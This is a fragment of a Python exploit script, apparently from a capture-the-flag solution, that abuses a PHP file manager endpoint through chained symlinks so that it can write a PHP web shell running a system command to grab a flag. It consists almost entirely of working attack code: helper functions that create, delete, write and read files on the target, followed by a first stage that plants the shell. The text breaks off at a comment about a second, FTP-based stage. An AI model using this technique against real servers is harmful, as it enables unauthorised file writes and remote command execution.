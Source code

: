 ```python3
        data = {"filename": filename, "mode": "create"}
        if symlink:
            data["symlink"] = "1"
            data["target"] = symlink
        r = s.post(f"{TARGET}/citrus.php%3Flime.php", data=data)
        time.sleep(0.25)
        r = s.get(f"{TARGET}/citrus.php%3Flime.php")
        if symlink and f"Symlink to {symlink}" not in r.text:
            continue
        if f'name="filename" value="{filename}"' not in r.text:
            continue
        break

    if symlink:
        print(f"created {filename} -> {symlink}")
    else:
        print(f"created {filename}")

def delete(s, filename):
    while True:
        r = s.post(f"{TARGET}/citrus.php%3Flime.php", data={
            "filename": filename,
            "mode": "delete"
        })
        time.sleep(0.25)
        r = s.get(f"{TARGET}/citrus.php%3Flime.php")
        if f'name="filename" value="{filename}"' in r.text:
            continue
        break

    print(f"deleted {filename}")

def write(s, filename, data):
    while True:
        r = s.post(f"{TARGET}/citrus.php%3Flime.php", data={
            "filename": filename,
            "mode": "write",
            "data": data
        })
        time.sleep(0.25)
        r = s.get(f"{TARGET}/citrus.php%3Flime.php")
        if f'name="filename" value="{filename}"' not in r.text:
            continue
        break

    print(f"wrote {filename}")

def read(s, filename):
    r = s.post(f"{TARGET}/citrus.php%3Flime.php", data={
        "filename": filename,
        "mode": "read"
    })
    print(r.text)

# First stage - Create PHP webshell
create(s, "c", symlink=".")
create(s, "b", symlink="c")
create(s, "a", symlink="b")
delete(s, "c")
create(s, "a", symlink=f"/tmp/{folder}/pwn.php")
write(s, "a", f"<?php system('/proo* > /tmp/{folder}/flag'); ?>")

# Second stage - Create symlink chain with FTP
```